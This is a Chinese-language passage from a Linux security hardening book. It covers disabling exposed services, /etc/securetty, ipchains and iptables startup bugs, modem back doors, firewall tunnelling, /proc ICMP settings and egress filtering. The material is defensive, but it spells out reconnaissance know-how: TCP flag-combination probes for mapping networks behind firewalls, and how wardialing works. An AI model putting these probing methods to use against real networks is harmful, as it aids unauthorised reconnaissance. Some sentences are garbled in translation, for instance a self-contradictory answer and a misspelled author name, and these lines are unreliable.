复制你的 shell 和编辑器配置文件，然后开始进行初始加固。这种加固仅仅是为了保护系统免受网络攻击。我假设最初我们不能信任任何拥有用户密码的人是不邪恶的。对 `xinetd` 和 `xinetd.conf` 执行 `man` 命令将给出所有详细信息。

Red Hat 创建了 `inetdconvert` 程序，用于转换一个人的 `xinetd` 配置文件，并在 GNU General Public License（GNU 通用公共许可证）下发布。它在随附 CD-ROM 上。使用 `-h` 标志调用它会给出一个令人困惑的使用消息。要转换当前目录中的 `inetd.conf` 文件，以下命令有效：

```bash
mkdir foo
inetdconvert -d foo --inetdfile inetd.conf --convertremaining
more foo/
cp foo/* /etc/xinetd.d/
killall -1 xinetd
```

我们将使用在第 80 页“关闭不需要的服务”中讨论的技术。调用 X（除非你永远不会使用 X）使用以下命令：

```bash
netstat -anptu | more
```

可惜，你会发现 X 正在监听 TCP 端口 6000，极易被破解。由于 X 以 root 运行，默认的身份验证具有可疑的安全性，并且有很多 bug，它不应该从网络访问。编辑 `$HOME/.Xserverrc`。如果已经有一行以 "X" 开头，请删除它。

```bash
X -nolisten tcp :0
```

关闭并重启 X，再次调用 `netstat` 以验证 TCP 端口 6000 不再开放。编辑每个人可能会调用 X 的每个账户的 `.Xserverrc`。

Sendmail 正在回环设备 IP 127.0.0.1 的端口 25 上监听。不清楚这是否代表比本地可利用的风险更大，除非系统将是邮件服务器，否则 Sendmail 没有理由监听任何端口。编辑 `/etc/config/sendmail.cf` 文件并修改行

```bash
DAEMON=yes
```

为

```bash
DAEMON=no
```

## 2.7 网络安全加固

然后执行以下命令：

```bash
service sendmail restart
netstat -anptu | more
```

观察 Sendmail 不再监听 TCP 端口 25。

检查安全补丁，并安装任何可能影响程序、库或内核的补丁，如第 97 页“为旧灯添新油”（'New Lamps for Old'）中所述。Red Hat 的创新更新程序可以检查安全补丁并在可用时提供建议，对许多人来说是一个不错的解决方案。对于生产系统，任何新版本的软件都需要进行测试，既要确保安装过程中没有出现问题，也要确保新程序未导致安全性回退，例如权限或访问控制的改变。

默认情况下，RH73 启动的是 IP Chains 而不是 IP Tables。IP Chains 启动脚本中存在一个 bug，如果在网络启用的情况下发出以下命令，会导致系统短暂关闭防火墙规则：

```bash
/etc/rc.d/init.d/ipchains
```

当带有 start、stop 或 restart 参数时。幸运的是，如果此操作发生在系统启动或关闭期间，网络尚未启用，因此不会创建漏洞窗口。

此脚本处理来自配置文件的规则：

```bash
/etc/sysconfig/ipchains
```

该文件的格式与包含 `ipchains` 命令的 shell 脚本相同，只是省略了命令名称（`ipchains`），并且策略使用 `-` 而不是 `-P` 指定。

如果 `/etc/rc.d/init.d/ipchains` 被调用时带有 `save` 参数，它会将系统规则保存到此配置文件中。更好的解决方案是安装此脚本的新版本，该版本只需调用 `/etc/rc.d/rc.fw`，这应该是由你从头编写的脚本。

IP Tables 和 IP Chains 均实现为内核模块。如果其中一个已加载，另一个则无法加载。由于 `/etc/rc.d/rc3` 目录中既有 `S08ipchains` 又有另一个 `S08ipchains` 脚本，它们将按照 ASCII 排序顺序被调用。`S08ipchains` 排在第一位，因此它胜出。如果你将 `S08ipchains` 重命名为 `s08ipchains` 并执行以下操作：

```bash
ipchains -X
ipchains -F
rmmod ipchains
```

或者重启系统，那么你就可以使用 IP Tables。之所以需要 `ipchains -X` 和 `ipchains -F`，是因为如果存在用户链或规则，则无法卸载该模块。


与 IP Chains 类似，如果网络启用时调用 Red Hat 的 IP Tables 脚本，也会出现漏洞窗口。CD-ROM 上有一个改进的脚本。它不再解析 `/etc/sysconfig/ipchains`，而是调用 `/etc/rc.d/rc.fw`。这应该是一个由你编写的 shell 脚本。

Red Hat 7.3 每晚凌晨 4 点运行 LogWatch。你的任务是扫描日志文件以查找异常，并向 root 发送列明这些异常的电子邮件。每天一次，特别是凌晨 4 点，频率不足以及时通知攻击事件。此外，它提供的信息不足以了解比 sftp 更多的内容。它既不提供事件发生的时间，也不指示失败的登录发生在哪个终端上。以下是一次凌晨 4 点运行的结果：

```text
##################### LogWatch 2.6 Begin #################
SSHD Begin
--------------------
Failed logins from these:
root/none from 12.129.72.144: 1 time(s)

Users logging in through ssh:
root logged in from f18 (12.129.72.144) using password: 1 times(s)

**Unmatched Entries**
subsystem request for sftp
--------------------\SSHD End
##################### LogWatch End #################
```

Red Hat 选择 LogWatch 可能是为了避免客户花费大量时间去检查例如 Logcheck 的详细输出（每隔几小时一次）。不幸的是，它效率低下。Logcheck 做得好得多，对于小型网络和单个系统来说不是重大负担，但对于大型系统则是必需的。我建议关闭每日的 LogWatch 调用（通过移除 `/etc/cron.daily/00-logwatch`），安装并使用 Logcheck，如第 346 页“使用 Logcheck 检查你从不检查的日志文件”（“Using Logcheck to Check Log Files You Never Check”）中所述。

## 2.8 限制不合理访问

讨论了各种常见的对系统敏感部分进行不合理访问的问题，并提供了解决方案。这些是通常被忽视的常见问题，从而导致漏洞。

| 危险等级 |
| :----------- |
| ☠ ☠ ☠ ☠      |

Linux 允许系统管理员（SysAdmin）使入侵者无法有机会猜测 root 密码，即使他知道该密码也无法使用。这是“安全环”（“Rings of Security”）策略的一部分。这是通过允许 root 仅在认为安全的特定 tty 设备上登录来实现的。安全 tty 的定义是限制了对不信任人员的物理访问的终端。在不安全的终端上，入侵者必须首先登录为普通用户，然后使用 `su` 命令。这要求他知道两个密码而不是一个。

在入侵者甚至尝试破解普通用户密码之前，他必须确定要破解的一些账户名称。有关保持账户名称安全的方法，请参见第 44 页“账户名称”（“Account Names”）、第 88 页“不要获取 finger 信息”（“Do Not Get the Finger”）和第 89 页“关闭 rhwhod”（“Turn Off rhwhod”）。

当 root 尝试登录时，`login` 程序首先查询配置文件 `/etc/securetty`，查看 root 试图登录的 tty 设备是否列在其中。（在 `/etc/securetty` 中不应指定前导的 `/dev/`。）

如果未在 `/etc/securetty` 中找到该设备，`login` 会认为该 tty 不安全，友好地提示输入密码，然后打印 "Login incorrect."。如果不存在 `/etc/securetty` 文件，若缺失该文件，root 可能从任何 tty 登录，这将是系统中的漏洞。该文件在联机手册的第 5 节中有文档说明。

说 "Login incorrect" 的原因是防止某人从不受监控的不安全终端尝试猜测 root 密码，然后花费最少的时间在安全终端上实际登录并植入木马。

某些发行版会将串口设备（如 `tty0`）包含在内。如果 `/etc/securetty` 中连接到此文件的设备可能是个大错误，因为这会允许世界上任何人拨入并开始猜测 root 的密码。另一方面，如果 `tty0` 是一个位于安全地点直接连接的串行终端，那么将此设备包含在 `/etc/securetty` 中可能是合适的。

某些站点错误地将以下伪 tty 设备包含在 `/etc/securetty` 中：

```text
tty[p-za-e]*
```

这是一个可怕的错误，允许黑客通过 telnet 猜测密码（如果启用了 telnet）。许多黑客有自动程序，会反复尝试直到成功为止。

`/etc/securetty` 文件应为模式 600 或 400，以防止旁观者查看哪些终端具备 root 权限。某些发行版错误地将其分发为模式 644，例如 Mandrake 和 Slackware；快速执行 `chmod` 即可修复此问题。



一些旧的 UNIX 系统在有人提供正确密码时会说 "root login not allowed"，在其他情况下则说 "Login incorrect"。这允许某人在不安全的 tty 上猜测 root 密码，而无需通过普通账户进行。然后，当猜测出正确密码时，快速执行 `su` 并擦除日志。

一些古老的 Linux 系统在接受密码之前会说 "root login refused on this terminal"。这比统一的 "Login incorrect." 安全性稍差一点。

你需要决定哪些设备应被视为安全的，从而值得列在 `/etc/securetty` 中。如果未启用虚拟控制台，则控制台设备用作登录设备。如果你使用虚拟控制台，则最好在控制台上启用 root 登录，以防虚拟控制台被意外禁用。如果使用虚拟控制台，它们使用设备 `tty1`、`tty2` 等。将这些设备全部包含在 `/etc/securetty` 中是合理的。这里可能不需要列出超过六到八个 tty 设备，即 `tty1` 到 `tty6`。


Warding 是指某人编程其计算机调制解调器拨打一系列电话号码，以搜索那些连接了调制解调器并应答的电话号。其目的是找到可入侵的计算机，这是标准黑客技术。非常有野心的黑客会尝试电话交换机中的所有 10,000 个号码。在这种情况下，如果你的号码在线，它就是在线的。黑客经常选择一个或多个公司作为目标。例如，Pentacorp 宣布下周上市。

黑客只需致电相应区号的查号台，被告知 Pentacorp 的主号码是 555-642-6000。然后黑客让他的系统对 555-642-6000 到 555-642-6999 之间的所有号码进行 wardialing，记录哪些以调制解调器音应答、记录操作系统类型和版本名称的登录提示，并开始破解。操作系统类型和版本告诉他要尝试哪些利用，系统名称告诉它可能是否包含有趣的数据。

解决这个问题相当简单。更改号码。在组织交换机或 Centrex 号码之外，获取一个完全不同的号码，使用不同的交换局。成本的轻微增加将大大高于增加的安全性。请记住，企业防火墙后面的任何调制解调器都可能危及安全。参见第 68 页“绕过防火墙”（"Stopping End Around Firewalls”）。

### 2.8.3 阻止对数据的无控制访问

**危险等级**

在第 53 页“查找权限问题”中，你看到了如何使用 `find` 命令搜索整个文件系统以找出权限设置过于宽松的文件并予以修正。假设这些文件由用户拥有，他们要么修正了权限，要么与该用户讨论了这一问题。这里的问题是，许多用户和程序员太忙，无暇顾及权限。如果必须在错过截止日期或放松安全要求之间做出选择，那么答案显而易见。

因此，可能有些文件由于程序员的实现方式，需要允许全局可读甚至全局可写。在某些情况下，这个问题源于不想使用“set-UID in root”程序或 set-UID shell 脚本，而这些脚本又与 CGI 和数据库工作相关。解决方法是让程序员改变实现方式，使其不需要这种访问权限。使用小型 set-UID C 程序来执行脚本（不进行 fork）。换句话说，小型 set-UID C 程序应以 `execcl()` 或 `execv()` 开始，而不应该 `fork()`。


另一个可能的问题是，Linux 权限可能严格且正确，但应用程序的内部配置可能会向任何人暴露数据。一个完美的例子是，CGI 代码用于访问数据库，但数据库本身没有规则限制访问。因此，任何知道 SQL 的人都可以修改数据，无论是非授权用户还是作为特权用户进入你系统的黑客。大多数程序提供不同级别的信息，允许不同组别的人访问。这应该被用来防止此类问题。

## 2.8.4 限制服务器接口

**危险等级**

虽然让不同的系统执行不同的功能以增加安全性是可取的，但在小型网络中，一个系统可能作为防火墙、Samba 服务器、AppleTalk 服务器、Web 服务器、NFS 服务器等。如果不仔细，这会导致即使不希望如此，Internet 上的每个人都能获得对这些服务器的访问权限。虽然你可以限制特定 IP 地址对系统的访问，但这些 IP 地址很容易被欺骗。虽然 `IP Chains` 规则在正确配置时能阻止这种行为，但“安全环”概念建议还应使用额外的安全环。

尽管许多服务器默认接受系统所有网络接口的请求，但大多数都提供配置选项以限制其监听哪些接口。应参考每个受影响服务的文档以了解相关技术。对于 Samba，`/etc/smb.conf` 的 `[global]` 部分应包含以下行：

```
interfaces = IP1/mask1 IP2/mask2
bind interfaces only = true
```

`IP1` 和 `IP2` 应为标准的点分十进制表示法，掩码应指示定义这些网络所需的适当位掩码。

对于 Novell 服务器，`/etc/nwserv.conf` 文件的第 4 部分应指定接口设备，例如 `eth0`。

## 2.9 防火墙与企业的护城河


目前流行的做法是在企业（或机构）网络与 Internet 之间设置一个接入点，并在该点配置经过精心配置的防火墙。使用 `IP Chains` 在 Linux 上设置防火墙在第 514 页“使用 IP Chains 和 DMZ 的防火墙”中有讨论。在防火墙内部，有数十、数百甚至数千个不安全的系统，只有当以下三件事保持真实时，它们才能免于彻底灾难：

1. 防火墙阻止所有来自 Internet 的危险数据包。有许多隐秘的方法可以绕过大多数防火墙。
2. Internet 和企业网络之间除了防火墙外绝对没有其他路径。网络上总会有一个或多个带有调制解调器的个人计算机或笔记本电脑。那么 SSH 连接、telnet 连接和 VPN 呢？
3. 没有来自内部人员的攻击，例如不满的离职员工和拥有访问权限的供应商。这样的攻击将会发生。

这些情况很少能一直保持真实。本节旨在解释在这种假设下给公司带来危险的原因。它提供了解决方案，以防范这些假设不真实的情况，以及如何确定这些假设是否不真实。

> 防火墙的存在不是万灵药，也不应该成为允许在其背后运行不安全系统的借口。

### 2.9.1 阻止绕过防火墙

**危险等级**

根据 SecureLogix 引用的 1999 年冬季 CSI/FBI 计算机犯罪和安全调查，进入组织网络的最好方式可能不是前门，而是通过调制解调器接入某个台式 PC。我称之为*绕过防火墙的迂回路线*，源自美国橄榄球队围绕主要防守球员推进战术。这也可能被称为后门。

计算机安全中使用的术语“防火墙”，意味着一个将受信任网络（如组织网络）与非受信任网络（如 Internet）分隔开的系统。它确定非受信任网络中的哪些系统（IP 地址和主机名）被允许使用哪些服务（如 http, ssh, e-mail, telnet 等）连接到受信任网络中的哪些系统。一些防火墙具有额外功能。

当系统由防火墙保护时，意图是所有与外部世界的交互都通过该特殊机器发生。它可以阻止对某些内部端口的访问，将已知端口重定向到受保护的端口，过滤传入数据以检查病毒，以及所有其他重要和关键功能。你都知道这些。

然而，这种精心设置的防御可以被一个带着未安全加固笔记本电脑和电话线的蠢货破坏。如果你有移动用户，请务必加固他们的系统。启用 `TCP Wrappers`，禁用不必要的服务包括 telnet 和 FTP，安装 SSH，并遵循本书中关于保护移动计算机的建议。

有人建议在 `/etc/ppp/if-up` 中设置条目来开启 `eth0`，而在 `if-down` 中将其关闭。有人说，“调制解调器和企业以太网之间没有路由。”虽然这会阻止黑客，但一个聪明人仍然可以在笔记本电脑中植入特洛伊木马，使 `eth0` 重新开启或保持开启。数据中只需一个裂缝就足以引发洪水。如果特洛伊木马安装在移动计算机上，然后该计算机连接到你的内部网络，你的整个网络就已被破坏。

关于防火墙背后的访问点，需要一点常识。如果防火墙内的机器上有调制解调器，它们就是主要的攻击点。相反，调制解调器应位于 DMZ 中。与这些拨号线路相关的虚拟专用网络（VPN）软件可以帮助保护你的网络安全。这样，VPN 就位于笔记本电脑和你的内部网络之间。Linux 上有可用的 VPN 软件包。

另一种可能性是，那些提供拨入访问的公司系统内的调制解调器本身被配置为防火墙。通常，除了 root 之外，系统上允许登录的账户仅包含 `pppd`（PPP 守护进程）。为了额外保护，将这些系统放置在你的非军事区（DMZ）中，这样在这些托管调制解调器的系统和你的内部网络之间就有单独的防火墙。

防火墙规则随后仅允许流向 SSH 等端口以及其他加密安全协议如 https, imaps（SSL 封装的 IMAP）和 pop3s（SSL 封装的 POP3）的流量。（参见第 152 页“POP 和 IMAP 服务器”）。这些系统还需要允许 UDP 端口 53（DNS 请求）从拨入用户（笔记本电脑和家庭系统）的 PPP 接口发起。

防火墙后的拨出电话线也是安全弱点。网络是双向管道。如果数据能出去，它也能进来。（但你不想让你的机密数据出去。）

有一些非常有用的工具，用于使用调制解调器进行拨号等操作，例如在电话营销场景中。然而，通常你不能逐时刻控制用户的行为。迟早有人会找出如何拨打当地 Internet 提供商的电话，从而绕过你精心配置的所有安全。一种可能性是确保调制解调器设备由 root 拥有，权限为 600，并使用严格控制访问它们的软件。通常这是一个 set-UID 为 root 的 C 程序或 Perl 脚本，允许仅拨打经过批准的电话号码。

对于移动计算机，考虑移除所有调制解调器和软盘驱动器以及 `ppp`, `dial`, 和 `tip` 程序，以及其他支持机器需求的软件。（在非 Linux 平台上移除等效软件。）考虑移除调制解调器设备（通常是 `/dev/cua*` 和 `/dev/ttyS*`）并在 CMOS（BIOS）中禁用它们。这在第 114 页“CMOS 重新配置”中有讨论。

除了某人“非法”用自己的调制解调器甚至自己的 T1 线路绕过防火墙外，还有各种通过防火墙隧道以规避对公司资产保护的方法。这些技术使用防火墙允许的端口，如 23（telnet）或 80（www），在其上运行非标准的 telnet 或浏览器程序。`pppd` 程序对此效果很好；它只是建立一个“网络”设备，它们将所有流量路由通过该设备，从而免受你的保护。甚至有一个有用的 Linux HOWTO 关于：

```
www.linuxdoc.org/HOWTO/mini/Firewall-Piercing.html
```

如今，许多 Microsoft 产品通过称为 SOAP 的东西使用端口 80（www）进行通信。Microsoft 的官方观点，引用¹⁹自我们

# 2.9 防火墙与企业护城河

### 2.9.2 穿越防火墙的隧道技术

**危险等级**

本节的灵感来源于量子力学中的一个概念：电子有时能穿过经典物理理论无法解释的势垒。你已精心配置了防火墙，仅允许来自互联网的请求访问少数端口和机器，例如将SSH、对你的“外部”DNS服务器的DNS请求，以及邮件和Web服务器进行访问。你免受他人探测网络的安全吗？可能并不安全。问题在于，大多数策略都是为那些通常会遵守规则的人设计的，在此情况下，即底层协议的规范。

这些协议包括 TCP、UDP、ICMP 和 ARP。ARP 关注路由等问题。大多数防火墙的配置目的是阻止恶意数据包进入，同时允许公司人员发送任何合理的数据包出去。黑客（Crackers）通常是对协议了解最多的探测者。他们发现，虽然大多数防火墙假定响应数据包实际上是为了回应来自其网络内部系统的合法请求，但他们可以生成看似响应请求的数据包，从而直接穿透防火墙。他们能做到这一点吗？能。不能。

这很容易。只需请求使用“原始”（raw）IP 协议的套接字，而不是 TCP 或 UDP 协议。因为黑客知道数据包的样子，所以他们按字节“构建”数据包并将其发送出去。你可能曾在某门工作课程中研究过此内容。在那里，讲师会详细讲解源地址和目标地址各占多少字节，校验和占多少字节等。


其中一种技术是黑客发送 ICMP 回显。这些数据包是在执行 `ping` 命令以测试两个系统之间的连接性和通信质量时生成的。大多数防火墙会假定这是对 ping 请求的响应，并将其转发到数据包中目标地址对应的系统。这就是黑客与 TFN2000 特洛伊木马通信的方式。TFN2000 在第 400 页的“隐蔽特洛伊木马”中详细讨论。相同的技巧可能用于不同类型的响应数据包以进行成功的探测。对于某些类型的数据包，响应会有所不同，具体取决于是否有进程正在监听该端口。因此，即使有防火墙，黑客也可以映射大多数网络！若要监视网络上的这些及其他数据包，请参见第 370 页的“tcpdump”。

以下是用于这些探测的 TCP 数据包类型。全大写的不同名称是 TCP 数据包中可能设置的各个状态位的名称。在这里，将使用“`|`”字符，该字符在 C 语言中用于表示“或”`OR`，此处用法相同。因此，“`RST|ACK`” 表示同时设置了 RST（复位）和 ACK（确认）位的数据包。

各个位的含义列于表 2.2 中。

### 表 2.2 TCP 状态位含义

| 缩写 | 含义 |
|---|---|
| ACK | 确认 |
| RST | 复位（协议错误） |
| SYN | 同步 |
| FIN | 结束 |
| URG | 紧急（带外）数据 |
| PUSH | 推送 |

黑客可以使用从原始套接字发送的定制 TCP 数据包对你所在的网络进行以下类型的分析（探测）。

- 除了包含 RST 外，任何带有 ACK 位的状态位组合，都会导致被探测的机器发出 ACK 响应，无论黑客探测的是开放端口还是关闭端口。这是因为系统正在接收 ACK 消息，但并未发送值得该确认的请求。
- `SYN|FIN|URG` 会导致无论是探测开放端口还是关闭端口都返回 `RST|ACK`。
- `SYN`, `FIN`, `SYN|PUSH`, `SYN|URG`, `SYN|FIN|PUSH`, `SYN|URG|PUSH`, 以及 `FIN|URG|PUSH|PUSH|SYN` 都会导致关闭端口返回 `RST|ACK`，而开放端口返回 `SYN|ACK`。
- `FIN`, `FIN|PUSH`, `URG|PUSH`, `URG|FIN`, `PUSH|FIN` 以及无标志位的所有情况，都会导致关闭端口返回 `RST|ACK`。Linux 和 UNIX 机器不会响应针对开放端口的探测；Windows 机器将回复 `RST|ACK`。
- 如果他们使用其中一种主机检测组合且未收到回复，则说明存在过滤设备，该设备正在阻止探测进入受保护区域，或阻止响应送出。

#### 5. 弱过滤设备

防火墙只是一个简单的数据包过滤器，它会阻止传入的 SYN 数据包，列表中的一些组合会引发回复。如果防火墙是有状态的（并且正在履行其职责），所有这些尝试都将被检测为违反 TCP 协议，数据包将被丢弃，不生成响应。

因此，手握你所在站点的地图，黑客可以尝试多种利用手段：

- TCP 序列号预测。Linux 内核自 2.0.30 版本起已防止这种情况。一些闭源操作系统在关闭这个严重的安全漏洞方面动作较慢，混合环境中可能有一些易受攻击的系统。
- 检查你的防火墙是否足够智能，能够拒绝显示源地址仅应来自防火墙内部机器之外的数据包。大多数现代防火墙在配置得当时会禁止此行为。那些不禁止的防火墙无疑会使你的系统暴露于 UDP 伪装以及 TCP 序列号伪装尝试之下。
- 针对单个机器的 DoS 攻击。

另一种隧道技术是黑客侵入员工授予组织网络访问权限的家庭系统。此访问可能通过 SSH 或 TCP Wrappers 实现。高安全性安装将拒绝此访问，除非员工的家庭系统通过了与企业自有系统同样严格的安全审计。

较旧的 FTP 服务器也可用于穿越防火墙。此问题在第 145 页的“FTP 代理危险”中予以解决。

针对穿越防火墙的隧道技术，可以采取什么措施？最佳解决方案是利用 Linux 的 IP 伪装（IP Masquerading）功能，建立一个使用私有 IP 地址的私有网络。网络地址转换（NAT）是 IP 伪装在 Linux 世界之外更常用的名称。让你的防火墙将这些地址映射为临时地址，当你的内部机器希望与外部世界发起通信时。由于你的内部地址不会与你的互联网地址相关联，黑客将“无法从这里突破”。

另一种选择是“有状态防火墙”。与标准防火墙（称为无状态防火墙）不同，有状态防火墙了解 TCP 协议。因此，如果它发现一个“响应”数据包来自互联网，而最近并未向该机器对应的端口号发送适当的“请求”数据包，它会知道这是伪造的或错误的。该有状态防火墙随后会将数据包丢弃在地板上，并可能会向系统管理员发出警报。

由于 SOAP 依赖 HTTP 作为传输机制，而大多数防火墙允许 HTTP 通过，因此你在防火墙两侧调用 SOAP 端点都不会有问题。别忘了，SOAP 使系统管理员能够配置防火墙，使用特定的 SOAP HTTP 头有选择地阻挡 SOAP 请求。

Bruce Schneider 在其 2000 年 6 月 15 日的 CRYPTO-GRAM 中对此段论点发表了评论：

- 没错。那些麻烦的防火墙阻止了管理员相互发送命令，所以 SOAP 允许你将这些命令伪装成 HTTP，以免被防火墙拦截。

尽管微软保证这是可以接受的，因为系统管理员可以阻挡 SOAP 请求，但现实是，这需要专门配置以阻挡特定流量的过滤防火墙；许多系统管理员并不了解这一阻挡漏洞。拥有知识和保护机构资产责任的资深管理员，比最终用户或程序员更有能力判断什么可以安全地进出组织网络。

当然，应该有一些书面政策，禁止人们无意中在防火墙周围（或穿过防火墙）设置桥接，违者将面临解雇的处罚，或采取其他措施避免此类行为。在某些环境中，让员工、承包商和供应商签署遵守该政策及对违规者予以解雇的协议是合适的，因为这些违规行为可能会对组织造成严重危害。此内容在第 539 页的“网络拓扑策略”中进行了讨论。

这将降低发生此类问题的可能性，例如某美国大型银行中一位头脑简单的员工，因不满公司互联网速度缓慢，在其分支机构安装了一条 T1 线路。这使精心配置的公司防火墙失效，并使银行暴露在盗窃风险之下。有些人定期拨打公司交换机上的每个电话号码，以搜索这些号码下未经授权连接的调制解调器。此技术无法找到那些没有自动应答功能的调制解调器，也无法找到那些头脑清醒的人在下班回家时会关闭的系统中的调制解调器。

这是值得投入精力的，每个月他们都能发现多个产生公司网络流量的此类调制解调器。自 1999 年以来，一家名为 SecureLogix Corp. 的公司生产了一款名为 TeleWall 的产品，从 29,000 美元起，用于监控公司电话线路上的这些未经授权连接的调制解调器。此设备连接在公司交换系统中。

我知道还有其他公司正在制造类似的产品。它们通过识别几乎所有调制解调器协议模式的电信号来工作，对于中大型公司而言，为防止此类越界行为，这些投资是非常物有所值的。

`http://msdn.microsoft.com/library/periodic/period00/soap.htm`

### 2.9.3 内核协议开关

> 危险等级 ☠ ☠ ☠

从 2.2 内核开始，你可以定制针对攻击者引发的各种问题的处理方式。这些特殊文件位于

```
/proc/sys/net/ipv4
```

下。

所有文件都可以使用 `less` 或 `cat` 进行查看。`/`proc` 下某些伪文件的实现存在一个严重 bug，即读取时返回的字符数多于请求的数量，从而导致核心转储。我假设在 2.4 内核中，这已成为历史。许多这些伪文件是可写的，用于更改运行中内核的设置。由于 `/proc` 不是磁盘文件系统，当系统重启时，这些设置将恢复为默认值。在 Red Hat、Mandrake 和 Slackware 中，你可以将设置这些值的相应命令放置在

```
/etc/rc.d/rc.local
```

中。

最重要的设置是让你的系统不回应广播 ICMP 广播。通过设置此选项，你可以阻止你的系统被用于非常流行的 DDoS（分布式拒绝服务）攻击。

DDoS 攻击是指一个或多个黑客从多个系统（通常几十、几百甚至数千个）发起攻击。通常，这些系统是被入侵的系统，其所有者并未意识到它们已被入侵，因为黑客除了安装将在接到命令时攻击第三方的“僵尸”程序外，并未做其他任何事情。

2000 年 2 月，一家公司在上市当天遭受了一次分布式拒绝服务攻击（DDoS 攻击）。有关 DDoS 攻击发起方式的详情，请参见第 655 页的“检测已删除的可执行文件”。

要阻止此利用漏洞，请发出以下命令：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_broadcasts
```

请注意，这只是针对此系统进行阻止。要让你的系统忽略所有 ICMP 请求，请发出以下命令：

```
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

该目录中还有许多其他有用的配置文件，用于限制各种利用漏洞和 DoS 攻击。

#### 2.9.4 出口过滤

> 危险等级


大多数系统管理员如此担心保护用户免受互联网的攻击，以至于他们不担心保护互联网免受源自其内部站点的攻击。最重要的是进行所谓的出口过滤。这意味着在你的防火墙（或路由器）中添加一些规则，以过滤流出（去往互联网）的数据包。具体来说，应检查每个出站数据包中显示的源 IP 地址，以验证其是否有效。“有效”定义为该 IP 属于分配给你所在机构的地址范围。通常，这是分配给你的 B 类或 C 类（甚至 A 类）范围内的地址。

这将防止网络内部的人员使用欺诈性地址方式从你的站点发起攻击，且该方式无法追踪。采取这种“良好互联网公民”方式的站点越多，发起的 DoS 攻击和其他攻击就越少，而且当攻击发起时，由于它们拥有有效的源地址，因此会更早被阻止。除了改善互联网环境外，出口过滤还能加快检测你的系统是否被入侵的速度，无论是来自外部黑客还是你组织内部人员。

### 2.9.5 局域网地雷

> 危险等级

被突破的局域网（LAN）需要特别考虑。如果局域网中仅有一台系统被突破，它可能被用作攻击局域网中其他未设防内部攻击（来自防火墙内部）系统的跳板。大多数系统管理员忽略了这种风险。请参见第 78 页的“使用公司内部防火墙遏制火势”和第 68 页的“阻止绕过防火墙的末端跑动”。

例如，网络管理员有一个防火墙保护内部系统免受外部威胁，通常只允许电子邮件进入（TCP 端口 `25`），因此系统管理员“只需”担心她的 `sendmail` 是否安全。

大多数 Linux、Mac 和 Windows 系统通过 POP 或 IMAP 协议从 Linux 服务器接收邮件，因此它们甚至不 vulnerable 于针对端口 `25` 的攻击。然而，总有一个用户坚持要求允许她从家庭系统通过 `telnet`[21] 登录，该家庭系统在每个会话开始时由她的 ISP 分配动态 IP。

因为她运行的是旧版本的 Linux（或 Windows 或 MacOS，就此而言），并且拒绝安装 `SSH`[22]，她与网络管理员讨论允许防火墙将 `telnet` 请求传递到她“办公室”的 Linux 工作站。小心 System。披萨、啤酒或苏打水，以及 Fry's 贿赂都很常见。不惜一切代价抵抗。

一个黑客通过扫描系统（或简单地尝试网络上的所有 IP 地址）确定了她的办公系统的 IP，并利用一个旧漏洞破解了她的机器，因为她太忙了，没有像他认为的那样加固她的系统。（她去年曾向网络管理员承诺会“很快”加固她的系统。）记住，防火墙允许 `telnet` 访问她的机器。现在，黑客开始渗透其他机器，因为它们没有防范来自防火墙*内部*的攻击。

这种攻击非常严重，许多组织易受其影响，可以通过几种方式加以保护。唯一的选择是严格坚持防火墙策略，无论对用户造成什么不便。我讨厌不必要的严厉措施，让我们考虑一下其他技术。

可以要求用户必须使用 `SSH`。管理员可以帮助她设置 `SSH`。通常，用户不愿迁移是因为他们不知道如何做，并担心这会花很长时间。花几分钟你的时间可能是值得的。贿赂可能对你有利。

可以要求她在开始每个会话时使用 `telnet` 访问一个位于其防火墙之外的已知安全系统，并将该 `telnet` 升级为安全的。请注意，这里需要难以破解的密码。我在第 36 页的“避免弱密码和默认密码”中讨论了密码选择。请注意，从她的家庭系统到安全系统的连接仍然易受嗅探攻击；任何嗅探者都能看到提供给 `SSH` 的密码，从而能够入侵她的系统。

她的办公系统可能通过另一个防火墙与其他系统隔离，尽管这仍会使她的系统易受攻击。因此，如果她的系统被破解，入侵者随后无法访问其他系统（假设除了她的系统外，已采取了良好的安全措施）。显然，如果她的系统易受攻击，这是最理想的解决方案。

如果她的系统包含专有源代码、工程文档、制造流程、专利申请、客户名单、营销计划、公司目录（猎头可将其用于挖角，黑客可将其用于社会工程）、谈判策略或许多其他重要文件，黑客入侵她的系统可能是灾难性的。

她可以安排一个反向 DNS 映射，将她从家庭系统获得的任何动态 IP 映射到完全限定主机名，然后将其放入她办公系统的 `/etc/hosts.allow` 文件中，该文件被其办公系统上的 TCP Wrappers 使用。

21. `telnet` 的一个极好替代方案，即通过 SSL 的 `telnet`。

22. `SSH` 可用于 Linux、UNIX、Windows、MacOS、VMS 和 Java。我在两小时内将 `SSH2` 移植到一个古老的 Linux 1.2 内核上。

从 1999 年末开始，相当数量的黑客开始获取非常机密的行业信息，并试图敲诈公司不要公开数据，经常要求数十万甚至数百万美元。我怀疑那些不贪婪的人只是悄悄支付了。

互联网上有许多网站免费提供动态 IP 到主机名的映射。我不能保证它们的质量，但可以试一试。你只需注册，然后安排你的 ip-up 脚本（通常在 `/etc/ppp` 中）调用你的程序来通知他们你的新 IP 地址。

默认情况下你的域名将在他们的域名之外，但他们也允许你注册自己的任何域名并将其与你的动态 IP 关联（请记住，要注册你选择的域名，你只需列出两个将处理与你主机名关联的 IP 请求的 DNS 服务器）：

- `www.justlinux.com/`

- `www.Webattack.com/shareware/network/sw.shtml`

- `www.dynyp.com/`

通过使用这些反向 DNS 服务之一，她可以使用 TCP Wrappers 围绕 `telnet` 访问，以便只有她的家庭系统被允许访问 `telnet`。我必须指出，理论上黑客可能会欺骗她向这些公共反向 DNS 服务发送消息，从而获得破解她 `telnet` 的访问权限。现实地讲，黑客如何知道要欺骗？

也许公共服务被破解，且反向 DNS 请求被检测到。也许如果她的家庭系统通过电缆调制解调器连接，黑客可以嗅探密码。

